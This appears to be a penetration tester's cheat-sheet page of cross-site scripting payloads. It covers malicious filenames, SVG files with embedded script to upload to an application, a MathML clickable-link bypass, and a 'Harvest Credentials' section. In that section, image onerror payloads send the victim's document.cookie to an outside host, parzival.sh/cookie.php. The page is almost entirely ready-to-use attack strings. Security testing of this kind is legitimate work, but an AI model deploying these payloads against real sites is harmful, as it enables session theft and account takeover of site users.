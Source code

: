 # XSS Payloads

### Filename&#x20;

```javascript
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
<a href="javascript:alert(1)">XSS</a
```

### SVG

Copy and paste the following payload into a `.SVG` file and attempt to upload it to the application.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS via SVG");
  </script>
</svg>
```

Copy and paste the following payload into a text editor and see if the image is loaded, if so attempt to follow up with a payload:

```svg
<iframe
  src="https://s3-us-west-2.amazonaws.com/s.cdpn.io/3/movingcart_1.svg"
  frameborder="0"
></iframe>
```

```markup
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```

### Bypasses

Math element which can make HTML element clickable:

```markup
<math>
    <xss href="javascript:alert(1337)">
       Click Me
    </xss>
</math>
```

### Harvest Credentials

```javascript
<img/src/onerror=document.location="https://parzival.sh">
<img/src/onerror=document.location="http://parzival.sh/cookie.php?c="+document.cookie>
```

## Resources&#x20;

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://github.com/cure53/H5SC" %}
